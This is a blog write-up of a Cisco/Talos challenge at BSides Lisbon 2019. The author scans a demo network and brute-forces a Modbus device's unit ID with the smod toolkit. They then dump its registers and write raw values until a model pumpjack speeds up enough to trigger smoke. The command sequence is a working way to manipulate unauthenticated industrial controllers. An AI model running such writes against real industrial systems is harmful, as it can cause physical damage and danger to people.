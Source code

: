 ```yaml
---
layout: post
title:  "Make it smoke! Cisco Challenge Write-up"
categories: [infosec, iot]
tags: [bsideslisbon, infosec, iot, cisco]
thumbnail: /images/bsideslx19/final.png
description: "Write-up of a sidequest challenge by Cisco/Talos during BSidesLisbon 2019"
---
```


[BSides Lisbon](https://bsideslisbon.org/) is the biggest security dedicated event in Portugal, with two days of talks, workshops, a CTF competition, and lots more. During BSides, some *sidequests* ranging from raffles to challenges appear that can give you prizes*!* This is a write-up of one of those challenges by Cisco/Talos.

<!--more-->

## The Challenge

![Make it Smoke!](/images/bsideslx19/header.png)

In the booth of Cisco/Talos, we were presented with the following scenario (as it can be seen in the picture):
1. An access point (AP) named `security` with the password `cisco12345`.
2. A 3d-printed pumpjack[^1].
3. Some controlling system based on Arduino.
4. The objective was to make it smoke somehow.

## Preliminaries

First thing first, connect to the network and do a quick network and port scan. Since it was an AP for everyone that wanted to do the challenge, several IP's showed up, but only one interesting, the `10.10.10.1` with the port `502` open.

As per Siemens documentation: *By default, the protocol uses Port `502` as local port in the Modbus server*[^2]. Thus we are probably faced with something that speaks *Modbus* protocol.

With a little of search, you can find a lot of *Modbus* protocol clients in the wild, as well as some *offensive* toolkits. 

## Making it smoke!

Using the [smod-1 by theralfbrown](https://github.com/theralfbrown/smod-1) toolkit, I was able to connect to the Modbus system and interact with it. 

{% highlight bash %}
$ python smod.py
SMOD > use modbus/scanner/uid
SMOD modbus(uid) > set RHOST 10.10.10.1
SMOD modbus(uid) > exploit
[+] Module Brute Force UID Start
[+] Start Brute Force UID on : 10.10.10.1
[+] UID on 10.10.10.1 is : 10
{% endhighlight %}

Now I did know the UID of the Modbus, however even after exploring the DoS capabilities and *all* the reader modules I was not getting anywhere close to make it smoke.

So, after exploring a little more one Github, I found out this really nice [modbus-cli by tallakt](https://github.com/tallakt/modbus-cli).

Even if it was not implemented with an *offensive* mindset like the previous tool, it allowed us to read, write and **dump** the memory of a *Modbus* device. Using it, we were able to read random parts of the memory, *e.g.*, reading five words from the device starting from address `%MW100` (which corresponds to address `400101`).

{% highlight bash %}
$ modbus read 10.10.10.1 %MW100 5
%MW100 0
%MW101 0
%MW102 0
%MW103 0
%MW104 0
{% endhighlight %}

After trying to read random places of the memory using this tool and finding nothing but zero values, and decided to just *dump* everything into a file (the operation took around 20 seconds).

{% highlight bash %}
$ modbus read --output mybackup.yml 10.10.10.1 400001 1000
{% endhighlight %}

After dumping all the memory into a file, looking into the file:

{% highlight bash %}
$ cat mybackup.yml 
---
:host: 10.10.10.1
:port: 502
:slave: 1
:offset: '400001'
:data:
- 0
- 0
- 0
- 0
- 0
- 0
- 5000
- 0
-- show more --
{% endhighlight %}

The file keeps going on, with a lot of zero's and a lot of random values. I guess that those random values were the result of all the participants trying to *pwn* it. 

However, that seventh value caught my attention because it was a single round number. Maybe that was the speed of the rotation mechanism of the pumpjack, *maybe*.

Checking if the dump was correct, with the same tool we could read that specific part of the memory:

{% highlight bash %}
$ modbus read 10.10.10.1 400001 7
400001 0
400002 0
400003 0
400004 0
400005 0
400006 0
400007 8000
{% endhighlight %}

And yep, the value was still there, but a bit higher (and we could observe the pumpjack rotating more quickly).

So the next step was to try to write some higher value there:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 10000
{% endhighlight %}

And then, *higher*:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 18000
{% endhighlight %}

And this was it, the increase in the rotation speed of the pumpjack triggered the smoke device that was connected to the Arduino! 

![Running like hell!](/images/bsideslx19/final.png)

This was my first time playing around with *Modbus*, and there is still a lot that I didn't touch nor understood. Nonetheless, it was a nice kickstart. 

Props to Cisco and Talos for coming up with the challenge and for the coffee mug and the [*snort*](https://www.snort.org/). And *pwning* IoT is the best kind of *pwn*.


### References

[^1]: [Pumpjack on Wikipedia](https://en.wikipedia.org/wiki/Pumpjack)
[^2]: [Which ports are released for Modbus/TCP communication](https://support.industry.siemens.com/cs/document/34010717/which-ports-are-released-for-modbus-tcp-communication-and-how-many-modbus-clients-can-communicate-with-a-simatic-s7-pn-cpu-as-modbus-server-?dti=0&lc=en-WW)
